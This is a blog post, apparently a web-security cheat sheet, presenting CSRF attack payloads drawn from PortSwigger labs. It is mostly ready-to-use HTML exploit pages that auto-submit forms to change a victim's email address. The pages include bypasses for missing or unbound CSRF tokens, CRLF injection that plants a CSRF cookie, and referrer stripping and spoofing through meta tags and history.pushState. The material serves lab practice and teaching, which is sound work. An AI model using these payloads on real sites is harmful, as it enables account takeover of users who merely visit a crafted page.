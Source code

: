 ```yaml
---
layout: post
title:  "CSRF Attacks"
author: erik
categories: [ Web ]
image: https://user-images.githubusercontent.com/47476901/159375082-f0ca6711-c380-41c8-b82d-9e1515ff729e.png
beforetoc: ""
toc: false
tags: [ Web Security, Payloads ]
---
```

CSRF attacks (Cross-site request forgery) is a type of malicious exploit that aims to perform unauthorized operations that will be executed by a user that the website trusts.

# Table of Contents
1. [CSRF vulnerability without defenses](#CSRFwithoutDefenses)
2. [Token validation depends on request method](#CSRFinGET)
3. [Token validation depends on token presence](#CSRFonPresence)
4. [The CSRF token is not bound to the user's session](#CSRFnotBound)<br>
   4.1. [Same token between users](#SametokenUsers)<br>
   4.2. [Token not linked to the session](#CSRFnotBoundSession)
5. [The token is duplicated in the cookie](#TokenDuplicatedCookie)
6. [CSRF without referrer](#CSRFwithoutReferrer)
7. [Broken Referer Validation](#CSRFRefererBroken)

---

### CSRF vulnerability without defenses <a name="CSRFwithoutDefenses"></a>
**CSRF basic mail**<br>
It makes a request to the endpoint that changes the email and javascript confirms the request, which will change the mail just by visiting the page.

Code from https://web-attacker.com/malicioso.html

```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@gmail.com" />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
---
### CSRF where token validation depends on request method <a name="CSRFinGET"></a>
Depending on the request method, it can be done with GET
```html
<img src="https://vulnerable-web.com/my-account/change-email?email=pwned@gmail.com"/>
```
---
### CSRF where token validation depends on the presence of the token <a name="CSRFonPresence"></a>
It does not verify the CSRF token, it is removed and bypassed.

```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@gmail.com" />
             <input type="hidden"  value="csrf" />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
---
### CSRF token is not bound to user session <a name="CSRFnotBound"></a>
**Using the same token in both users**<br>
We can use the same CSRF Token in one user than in another, thanks to the fact that the token is not linked to the user's session <a name="SametokenUsers"></a><br>
My token: U6vJiRteqjSX46XRk57k6saqolEcdDvQ works for other users too.
```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@gmail.com" />
                        <input type="hidden" name="csrf" value="<csrf>"  />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
**The CSRF token is not bound to the session** <a name="CSRFnotBoundSession"></a><br>
So the same csrf token and the same csrf key could be used in one account as in another to change the email
We can use CRLF Injection (If exists) to set the key in the CSRF payload.
```html
<html>
  <body>
    <form action="https://vulnerable-web.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@gmail.com" /> 
      <input type="hidden" name="csrf" value="<csrf>" />
      <input type="submit" value="Submit request" />    </form>
  <img src="https://vulnerable-web.com/?search=test%0d%0aSet-Cookie:%20csrfKey=<key>" onerror="document.forms[0].submit()">

  </body>
</html>
```

---

### The CSRF token is simply duplicated into a cookie <a name="TokenDuplicatedCookie"></a>
The token is validated in the cookie, we can make the user create his own csrf token which we indicate.

![cookieToken](https://user-images.githubusercontent.com/47476901/159374578-694ad92d-dc4c-43c5-b169-a32c28eebf3f.png)

Since the token was validated in the cookie, we can send the request to change the mail.
Again we can use CRLF Intection to indicate the token

```html
<html>
    <body>
        <form action="https://vulnerable-web.com/email/change" method="POST" >
            <input type="hidden" name="email" value="pwned@gmail.com">
            <input type="hidden" name="csrf" value="31415926535897932384626433832795028841971">
        </form>
		
        <img src="https://vulnerable-web.com/?search=hat%0d%0aSet-Cookie:%20csrf=31415926535897932384626433832795028841971" onerror="document.forms[0].submit()">
    </body>
</html>
```


---
### CSRF without referrer <a name="CSRFwithoutReferrer"></a>
We indicate that the Referer does not exist in the CSRF exploit using the meta tag.

Payload:
```html
<meta name="referrer" content="no-referrer">
```
Exploit:
```html
<html>
  <head> 
     <meta name="referrer" content="no-referrer">
  </head> 
<body> 
   <form action="https://vulnerable-web.com/email/change" method="POST"> 
   <input type="hidden" name="email" value="pwned@gmail.com" />
   <input type="submit"/>
</form> 
   <script>document.forms[0].submit();</script>
</body>
</html>
```


---
### CSRF with broken Referer validation <a name="CSRFRefererBroken"></a>

The page validates the referrer when we want to change mail, **it is determined if the referrer includes the domain of the origin page.**
By modifying the referer with javascript we can evade this validation and be able to exploit the CSRF.

**Modify the Referer:**
 - Using this javascript function `history.pushState()` that adds an entry to the browser's session history stack.
```html
<script>history.pushState("", "", "/?vulnerable-web.com")</script>
```
- Referer validation accepts any header that contains the expected domain somewhere in the chain
```html
Referer: https://web-attacker.com/?vulnerable-web.com
```

**Referrer-Policy**
- Many browsers now remove the query string from the Referrer header by default as a security measure. To override this behavior and ensure that the full URL is included in the request.
- We have to add in the header "Referrer-Policy: unsafe-url"

Payload:
```html
<meta name="referrer" content="unsafe-url" />
```

Exploit:
```html
<html>
   <head>
      <meta name="referrer" content="unsafe-url" />
   </head>
   <body>
      <script>
         history.pushState("", "", "/?vulnerable-web.com")  
      </script>
      <form action="https://vulnerable-web.com/email/change" method="POST">
         <input type="hidden" name="email" value="pwned@gmail.com" />
         <input type="submit" value="Submit request" />
      </form>
      <script>document.forms[0].submit();</script>
   </body>
</html>
```

---

- Source Labs: [Portswigger Labs](https://portswigger.net/web-security)
- Credits Image: [cobalt.io](https://www.cobalt.io)
